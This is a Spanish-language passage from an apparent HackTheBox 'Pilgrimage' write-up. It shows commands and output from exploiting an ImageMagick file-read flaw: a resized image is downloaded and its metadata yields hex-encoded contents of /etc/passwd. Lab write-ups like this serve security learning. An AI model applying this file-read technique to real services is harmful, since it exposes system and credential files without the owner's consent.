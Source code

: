 Por lo tanto, subiremos esta nueva imagen en la página web y le daremos a la opción de `Shrink` para redimensionar la imagen. Verificamos que se nos proporciona el enlace de la imagen redimensionada.

<figure><img src="../../.gitbook/assets/5145_vmware_BseAsc42SX.png" alt=""><figcaption></figcaption></figure>

Nos descargaremos en nuestro equipo la imagen en local.

```bash
❯ wget http://pilgrimage.htb/shrunk/67b3cb0d8693c.png
--2025-02-18 00:49:12--  http://pilgrimage.htb/shrunk/67b3cb0d8693c.png
Resolviendo pilgrimage.htb (pilgrimage.htb)... 10.10.11.219
Conectando con pilgrimage.htb (pilgrimage.htb)[10.10.11.219]:80... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 1080 (1,1K) [image/png]
Grabando a: «67b3cb0d8693c.png»

67b3cb0d8693c.png                                         100%[===================================================================================================================================>]   1,05K  --.-KB/s    en 0s      

2025-02-18 00:49:12 (70,6 MB/s) - «67b3cb0d8693c.png» guardado [1080/1080]
```

A través de `identify`, comprobaremos la información de la imagen, en la cual en el apartado de `Raw profile type`, se nos muestra un contenido codificado en `Hex`. Parece ser que la vulnerabilidad está presente en la versión de `ImageMagick` que realiza la redimensión de la imagen que subimos.

```bash
❯ identify -verbose 67b3cb0d8693c.png
Image:
  Filename: 67b3cb0d8693c.png
  Permissions: rw-rw-r--
  Format: PNG (Portable Network Graphics)
  Mime type: image/png
  Properties:
    date:create: 2025-02-17T23:49:12+00:00
    date:modify: 2025-02-17T23:49:33+00:00
    date:timestamp: 2025-02-17T23:49:43+00:00
    png:bKGD: chunk was found (see Background color, above)
    png:cHRM: chunk was found (see Chromaticity, above)
    png:gAMA: gamma=0.45455 (See Gamma, above)
    png:IHDR.bit-depth-orig: 1
    png:IHDR.bit_depth: 1
    png:IHDR.color-type-orig: 3
    png:IHDR.color_type: 3 (Indexed)
    png:IHDR.interlace_method: 0 (Not interlaced)
    png:IHDR.width,height: 100, 100
    png:PLTE.number_colors: 2
    png:text: 4 tEXt/zTXt/iTXt chunks were found
    png:tIME: 2025-02-17T23:49:33Z
    Raw profile type: 

    1437
726f6f743a783a303a303a726f6f743a2f726f6f743a2f62696e2f626173680a6461656d
```